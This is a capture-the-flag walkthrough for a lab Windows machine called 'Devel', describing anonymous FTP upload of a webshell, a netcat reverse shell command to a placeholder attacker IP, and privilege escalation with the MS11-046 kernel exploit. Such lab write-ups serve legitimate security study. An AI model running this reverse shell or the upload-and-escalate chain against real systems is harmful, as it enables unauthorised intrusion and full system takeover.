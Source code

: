 # Devel

## Summary

**Vulnerability Exploited:** Arbitrary File Upload

**Vulnerability Explanation:** FTP allows anonymous login and arbitrary file upload to the web root. This makes it trivial to upload a webshell.

**Privilege Escalation Vulnerability:** Windows x86 AFD Privilege Escalation (MS11-046)

## Penetration

We begin with an nmap port scan.

![](screenshots/nmap-tcp.png)

Nmap has already found everything needed for an initial foothod: FTP allows anonymous login, and it is apparently aligned with the HTTP server web root. This mean we can upload a web shell to the HTTP server through FTP without needing a username or password. We can also upload a netcat executable so that we can get a normal reverse shell next.

![](screenshots/put-webshell.png)

We can see the webshell at http://\<victim ip\>/cmdasp.aspx.

![](screenshots/webshell-whoami.png)

Now we can launch the reverse shell with netcat using the command **C:\InetPub\wwwroot\nc.exe \<attacker ip\> 443 -e C:\Windows\System32\cmd.exe** in the webshell.

![](screenshots/web-proof.png)

It looks like our iis apppool\web user can't even read the user flag. We need to find a way to escalate. After inspecting the box manually and with winpeas.bat, no clever privilege escalation methods stand out to us. (We have SeImpersonatePrivilege but don't seem to have system token available for impersonation.) Thus we turn to kernel exploits. The easiest way to find an exploit for this operating system is just to Google it.

![](screenshots/google-exploit.png)

Google points us to a promising exploit from ExploitDB. We can compile it locally and upload it through FTP.

![](screenshots/ms11-046.png)

We run the exploit on the victim and get a system shell.

![](screenshots/system-proof.png)

We can now read all the flags.

![](screenshots/user-flag.png)

![](screenshots/root-flag.png)